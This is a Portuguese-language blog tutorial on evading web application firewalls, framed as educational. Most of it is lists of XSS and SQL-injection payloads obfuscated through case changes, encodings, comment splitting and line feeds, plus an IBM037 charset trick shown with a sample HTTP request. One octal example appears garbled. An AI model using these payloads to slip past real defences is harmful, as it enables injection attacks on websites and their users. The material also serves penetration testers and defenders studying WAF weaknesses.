 ```yaml
---
date: 2023-01-07 16:58:42
layout: post
title: Maneiras de contornar seu firewall de aplicativo da Web (WAF)
description: Maneiras de contornar seu firewall de aplicativo da Web (WAF)
image: https://res.cloudinary.com/k4bv734/image/upload/v1689536360/waf_q61cuu.jpg
optimized_image: https://res.cloudinary.com/k4bv734/image/upload/v1689536360/waf_optimized_ooub1l.jpg
category: ciberseguranca
tags:
  - waf
  - cybersecurity
author: brunocosta
paginate: false
---
```

> **Aviso: Conteúdo Sensível em Cibersegurança**

> Este aviso tem o objetivo de informar sobre a natureza sensível do conteúdo relacionado à cibersegurança que será abordado neste texto. O conteúdo a seguir foi criado com fins puramente educacionais e para pesquisa, visando a conscientização e a compreensão dos desafios enfrentados na proteção de sistemas e informações digitais.

Neste artigo, discutiremos as ferramentas e técnicas usadas por testadores de penetração de aplicativos da web e pesquisadores de segurança para contornar com sucesso as proteções do Firewall de Aplicativos da Web (WAF).

Dependendo dos mecanismos usados pelo firewall, os métodos de bypass podem variar. Por exemplo, os WAFs podem utilizar expressões regulares (regex) para detectar tráfego malicioso. As expressões regulares são usadas para identificar padrões em uma sequência de caracteres. Você pode ler mais sobre elas [aqui](https://regexr.com/). Além disso, os WAFs também podem usar detecção baseada em assinatura, na qual sequências conhecidas de tráfego malicioso possuem uma assinatura armazenada em um banco de dados, e o firewall verifica se há correspondência entre o tráfego da web e as assinaturas no banco de dados. Se houver correspondência, o tráfego é bloqueado. Além disso, alguns firewalls usam detecção baseada em heurística.

Agora vamos explorar algumas técnicas comuns de bypass do WAF juntamente com exemplos.

1. **Ignorando o Regex**: Este método se aplica à filtragem baseada em regex feita pelo WAF e pelo servidor web. Durante um teste de penetração de caixa preta, pode ser difícil descobrir a expressão regular exata utilizada pelo WAF. No entanto, se a expressão regular for conhecida, é possível contorná-la usando algumas técnicas. Aqui estão alguns exemplos:

- Alteração do caso da carga útil
- Uso de várias codificações
- Substituição de funções ou caracteres
- Uso de sintaxe alternativa
- Uso de quebras de linha ou tabulações

Os exemplos abaixo demonstram algumas abordagens para contornar o regex com comentários.
```
<sCrIpT>alert(XSS)</sCriPt> #alterando o caso da tag
<< script>alert(XSS)</script > #prependendo um "<"
<script>alert(XSS) adicional // #removendo o fechamento tag
<script>alert`XSS`</script> #usando acentos graves em vez de parênteses
java%0ascript:alert(1) #usando caracteres de nova linha codificados
<iframe src=http://malicous.com < #colchetes angulares duplos
<STYLE >.classname{background-image:url( "javascript:alert(XSS)" );}</STYLE> #tags incomuns
<img/src=1/onerror=alert(0)> #ignorar filtro de espaço usando / where espera-se um espaço
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaa aaaaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #caracteres extras
```


2. **Ofuscação**: Embora a ofuscação seja uma maneira possível de ignorar o regex, eles foram divididos em diferentes seções para mostrar mais exclusivamente uma seleção de técnicas de ofuscação. A ofuscação é uma técnica utilizada para tornar o código malicioso mais difícil de ser detectado pelo WAF. Aqui estão alguns exemplos de técnicas de ofuscação:

- Uso de funções incomuns além de alert, console.log e prompt
- Codificação octal
- Codificação Unicode
- Uso de comentários para quebrar instruções SQL
- Uso de acentos graves ao invés de parênteses
- Codificação Base64 do JavaScript
- Codificação HTML

Essas técnicas podem ajudar a contornar a detecção do WAF. Exemplos abaixo:
```
Function( "ale" + "rt(1)" )(); #usando funções incomuns além de alert, console.log e prompt
javascript:74163166147401571561541571411447514115414516216450615176 #codificação octal
<iframe src= "javascript:alert(`xss`)" > #codificação unicode
/? id =1+un/**/ion+sel/**/ect+1,2,3-- #usando comentários na consulta SQL para quebrar a instrução
new Function`alt\`6\``; #usando acentos graves ao invés de parênteses
data:text/html; base64 ,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 codificando o javascript
%26%2397;lert(1) #usando codificação HTML
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)" > #Using Line Feed (LF) line breaks
<BODY onload! #$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use quaisquer caracteres que não sejam letras, números ou caracteres de encapsulamento entre o manipulador de eventos e o sinal de igual (só funciona no motor Gecko)
```


3. **Variáveis não inicializadas**: Uma técnica potencialmente útil envolve o uso de variáveis não inicializadas na solicitação. Isso pode ser especialmente útil em cenários de execução de comandos, onde o Bash trata variáveis não inicializadas como strings vazias. Ao concatenar strings vazias com uma carga útil de comando, é possível obter o resultado desejado. Isso pode ser usado como uma forma de ofuscação para contornar firewalls.



4. **Tamanho do conteúdo**: Alguns WAFs baseados em nuvem podem não verificar uma solicitação se o tamanho do conteúdo exceder um limite específico. Nesses casos, é possível contornar o firewall aumentando o tamanho do corpo da solicitação ou da URL.

5. **Conjunto de caracteres**: Essa técnica envolve a modificação do cabeçalho Content-Type para usar um conjunto de caracteres diferente, como por exemplo "ibm500". Um WAF que não está configurado para detectar cargas maliciosas em diferentes codificações pode não reconhecer a solicitação como maliciosa. A codificação do conjunto de caracteres pode ser feita em Python da seguinte maneira:

~~~python
$ python3
-- snip --
>>> import urllib.parse
>>> s = '<script>alert("xss")</script>'
>>> urllib.parse.quote_plus(s.encode("IBM037"))
'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n'
~~~

A string codificada pode então ser enviada no corpo da solicitação e carregada no servidor, como exemplificado abaixo:

~~~
POST /comment/post HTTP/1.1
Host: chatapp
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 74

%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3
~~~

Essa técnica permite que a solicitação seja processada pelo servidor, contornando as verificações do WAF que não estão configuradas para detectar essa codificação específica.




Para obter mais informações e explorar outras técnicas, veja mais em:
- [How to bypass WAF - HackenProof Cheat Sheet](https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/)
- [Bypassing Web Application Firewall (WAF) - Unicode](https://jlajara.gitlab.io/Bypass_WAF_Unicode)
- [Web Application Firewall Bypass Techniques](https://blog.yeswehack.com/yeswerhackers/web-application-firewall-bypass/)
- [Identifying Web Application Firewall in a Network](https://www.sisainfosec.com/blogs/identifying-web-application-firewall-in-a-network/)
- [OWASP Stammtisch Frankfurt - WAF Profiling and Evasion](https://owasp.org/www-pdf-archive/OWASP_Stammtisch_Frankfurt_WAF_Profiling_and_Evasion.pdf)
- [5 Ways I Bypassed Your Web Application Firewall (WAF)](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2)

Esses recursos oferecem informações valiosas sobre como contornar as proteções do WAF em diferentes cenários.